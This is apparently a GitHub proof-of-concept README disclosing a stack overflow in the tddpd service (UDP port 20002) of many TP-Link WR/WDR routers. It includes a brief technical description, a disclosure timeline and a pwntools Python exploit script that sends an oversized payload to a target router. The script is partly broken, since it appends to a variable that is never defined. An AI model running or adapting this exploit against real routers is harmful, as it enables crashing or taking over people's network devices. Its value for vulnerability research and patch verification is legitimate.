 # TP-LINK-POC_2

TP-Link router have a stack overflow in tddpd server running via port 20002.

Any user can get remote code execution through LAN, this vulnerability currently affects the latest versions of WR、WDR series, which include WDR7400,WDR7500,WDR7660,WDR7800, WDR8400,WDR8500,WDR8600,WDR8620,WDR8640,WDR8660,WR880N,WR886N,WR890N,WR890N,WR882N,WR708N,WR842N,WR802N,WR710N,WR706N,WR702N etc. It affects the linux system and vxworks system. we believe there are much more models suffered from this vuln.

## Vulnerability description 

This vulnerability happen when tddpd server receive data by usinng recvfrom `udp port 20002`.Then with a series data processing,it arrive `memcopy`,we can contorl `a1` and `v5`that It lead to a stack buffer overflow to execute arbitrary code.

**It's different from CVE-2020-28877**

![](./poc.png)

## poc

Refer to this video: [poc_video](./poc.mkv)

**poc**

```
#!/usr/bin/env python
# coding=utf-8
from pwn import *
if len(sys.argv)<3:
    print "Usage exp.py <target ip> <local ip>"
    exit(-1)
def critical(msg):
    sys.stdout.write('[\x1B[31m*\x1b[0m] ')
    for i in msg:
        sys.stdout.write(i)
        sleep(0.05)
    sleep(1)
def log(msg):
    sys.stdout.write('[\x1B[32m*\x1b[0m] ')
    sys.stdout.write(msg)
#REMOTE_IP="192.168.1.1"
REMOTE_IP=sys.argv[1]
LOCAL_IP=sys.argv[2]
#LOCAL_IP="192.168.1.101"
REMOTE_PORT=20002
LOCAL_LISTEN_PORT=8080
context.log_level='error'
context.endian='big'
context.arch='mips'
data+='\x00\x00\x00\x01'*16
data+=p32(0xcafebabe)*0x10000 # it can lead to buffer flowover
len2=len(data)
len1=4+len2
hash=0x5a6b7c8d

payload=  b'\x01\x00'+p16(2)+p16(len1)+b'\x21\x00'
payload+= p32(0xdeadbeef)+p32(0x5a6b7c8d)
payload+= p16(1)+p16(len2)+data

kk=0
for i in range(len(payload)//4):
    kk=(kk+u32(payload[4*i:4*i+4]))%0x100000000
info("hash 0x%x"%kk)
payload=  b'\x01\x00'+p16(2)+p16(len1)+b'\x21\x00'
payload+= p32(0xdeadbeef)+p32(kk)
payload+= p16(1)+p16(len2)+data
p=remote(REMOTE_IP,REMOTE_PORT,typ='udp')
sleep(1)
for i in range(10):
    sys.stdout.write('.')
    sleep(1)
print ''
p.send(payload)

```

## Timeline

2020.10.24 show in GeekPwn

2020.12.01 report to CVE and TP-Link

2020.12.12 TP-Link reply and fix it
